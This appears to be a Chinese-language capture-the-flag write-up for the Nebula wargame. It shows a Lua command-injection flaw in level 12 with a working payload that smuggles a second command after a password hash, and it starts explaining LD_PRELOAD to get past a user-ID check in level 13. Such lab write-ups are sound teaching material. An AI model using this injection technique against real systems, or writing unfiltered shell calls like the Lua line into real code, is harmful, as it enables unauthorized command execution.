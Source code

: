 这题你开着lua解释器试试就知道了。。问题在这行代码
```
prog = io.popen("echo "..password.." | sha1sum", "r")
-- payload: 4754a4f4bd5787accd33de887b9250a0691dd198;getflag > /tmp/get ;#
```

没有对password做任何过滤，导致命令执行。
```
level12@nebula:/tmp$ nc 127.0.0.1 50001
Password: 4754a4f4bd5787accd33de887b9250a0691dd198;getflag > /tmp/get ;#
Congrats, your token is 413**CARRIER LOST**
level12@nebula:/tmp$ cat /tmp/get 
You have successfully executed getflag on a target account
```

感觉nebula有问题。。。没能getshell成功

# Level13

这题的C代码很简单
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <sys/types.h>
#include <string.h>

#define FAKEUID 1000

int main(int argc, char **argv, char **envp)
{
  int c;
  char token[256];

  if(getuid() != FAKEUID) {
      printf("Security failure detected. UID %d started us, we expect %d\n", getuid(), FAKEUID);
      printf("The system administrators will be notified of this violation\n");
      exit(EXIT_FAILURE);
  }

  // snip, sorry :)

  printf("your token is %s\n", token);
  
}
```

代码简单了，可是不会做了，看了涛涛的wp后，学到了许多新知识
前置知识点1:

 > LD_PRELOAD：
 
 > 在Unix操作系统的动态链接库的世界中，LD_PRELOAD就是这样一个环境变量，它可以影响程序的运行时的链接（Runtime linker），它允许你定义在程序运行前优先加载的动态链接库。这个功能主要就是用来有选择性的载入Unix操作系统不同动态链接库中的相同函数。通过这个环境变量，我们可以在主程序和其动态链接库的中间加载别的动态链接库，甚至覆盖正常的函数库。 
